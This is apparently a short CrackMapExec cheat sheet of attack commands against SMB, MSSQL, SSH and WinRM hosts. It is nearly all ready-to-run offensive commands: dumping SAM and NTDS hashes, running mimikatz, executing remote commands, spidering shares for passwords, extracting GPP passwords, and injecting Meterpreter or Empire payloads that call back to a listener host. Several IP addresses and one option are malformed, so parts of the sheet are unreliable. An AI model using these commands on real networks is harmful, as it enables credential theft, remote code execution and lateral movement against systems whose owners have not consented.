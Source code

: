 # CrackmapExec CheatSheet

    cme smb 172.16.164.10-15
    cme smb 172.16.164.10-15 -u user -p P@ssw0rd
    cme smb 172.16.164.10-15 -u user -p P@ssw0rd --sam
    cme smb 172.16.164.10-15 -u user -p P@ssw0rd -x whoami
    cme smb 172.16.164.10-15 -u user -p p@ssword -L #list modules
    cme smb 172.16.164.10-15 -u user -p p@ssword -M mimikatz
    cmedb
    cmedb > creds
    cmedb > hosts
    cmedb > hosts <id>
    cme smb 172.15.164.10 -u user2 -p 'P@ssw0rd' --groups
    cme smb 172.15.164.10 -u user2 -p 'P@ssw0rd' --groups 'Domain Admins'
    cmedb > groups
    cme smb 172.15.164.10.10-15 -u user2 -p 'P@ssw0rd' --shares
    cme smb 172.15.164.10.11 -u user2 -p 'P@ssw0rd' --spider dontlook --pattern pass
    cme smb 172.15.164.10.11 -u user2 -p 'P@ssw0rd' --spider dontlook --pattern pass --content
    cme smb 172.15.164.10.11 -u user2 -p 'P@ssw0rd' -M gpp_password
    
    cme smb -M empire_exec --options
    cme smb 172.16.16.10.15 -u Administrator -p 'P@ssw0rd' -M empire_exec -o LISTENER=http
    cme smb -M met_inject --options
    cme smb 172.16.164.10-20 -u Administrator -p 'P@ssword' -M met_inject -o LHOST=172.16.164.1 LPORT=9090

    cme mssql 172.16.164.10-15
    cme mssql 172.16.164.11 -u Administrator -p 'P@ssword' -x ipconfig
    cme mssql 172.16.164.11 -u Administrator -p 'P@ssword' -M mimikatz

----------

    vncviewer --listen
    cme mssql 172.16.164.11 -u Administrator -p 'P@ssword' -M invoke_vnc
    cme mssql 172.16.164.11 -u Administrator -p 'P@ssword' -M invoke_vnc --options
    cme mssql 172.16.164.11 -u Administrator -p 'P@ssword' -M invoke_vnc --o PORT=5500 PASSWORD=demo

----------

    cme ssh 172.16.164.10/24

----------

    cme winrm 172.16.164.0/24 #wsman?
    cme winrm 172.16.164.0/24 -u Administrator -p P@ssword
    cme winrm 172.16.164.0/24 -u Administrator -p P@ssword -x whoami
    cme winrm 172.16.164.0/24 -u Administrator -p P@ssword --ntdis #via DNSSync


